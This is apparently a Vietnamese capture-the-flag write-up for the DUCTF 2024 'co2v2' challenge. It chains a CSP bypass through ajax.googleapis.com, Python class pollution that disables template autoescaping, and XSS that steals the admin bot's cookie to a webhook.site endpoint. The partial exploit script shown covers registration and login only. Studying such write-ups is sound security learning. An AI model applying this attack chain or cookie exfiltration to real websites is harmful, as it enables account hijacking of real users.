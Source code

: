 ## Analysis

![image](https://hackmd.io/_uploads/ByMousqP0.png)
CSP Policy có thể bypass ở chỗ `https://ajax.googleapis.com;` -> XSS.
![image](https://hackmd.io/_uploads/Bk1LyT9wC.png)
Và đoạn code trên cũng có api gửi đến con bot, chúng ta steal cookie và sẽ lấy được flag.

![image](https://hackmd.io/_uploads/SycAus5vA.png)
Vẫn còn các hàm để chúng ta có thể class pollution với python giống bài co2 bên trên. 

![image](https://hackmd.io/_uploads/Bk-Tkp5PR.png)
Ban đầu `TEMPLATES_ESCAPE_ALL` sẽ được set là true và khi init thì gán vào autoescape khiến ta không thể XSS được.

![image](https://hackmd.io/_uploads/ryLIKj9wC.png)
Nhưng ở endpoint này, chúng ta có thể gọi đến nó và gán lại autoescape. Và phía trên chúng ta có thể class pollution, nghĩa là gán lại biến `TEMPLATES_ESCAPE_ALL` thành false, khi đó ta sẽ tắt được bảo vệ XSS.

## Exploit Flow
1. Register and login
2. Class pollution re-assign TEMPLATES_ESCAPE_ALL var to turn off autoescape
3. XSS bypass CSP Policy with `https://ajax.googleapis.com;`
4. Report to BOT and check the webhook

Payload:
```python=
import requests
import random
import string

webhook = "https://webhook.site"
target = "https://web-co2v2-f4243a8e077ecefb.2024.ductf.dev"
session = requests.Session()


def generate_random_string(length):
    letters = string.ascii_letters
    return ''.join(random.choice(letters) for _ in range(length))


def regAndLogin():

    username = generate_random_string(6)
    password = generate_random_string(6)

    data = session.post(f'{target}/register', data={
        "username": username,
        "password": password
    })
    if data.status_code != 200:
        print("failed to register", data.status_code)
        exit(1)
    data = session.post(f'{target}/login', data={
        "username": username,
        "password": password
    })
    if data.status_code != 200:
        print("failed to login", data.status_code)
        exit(1)
    print("logged in")
```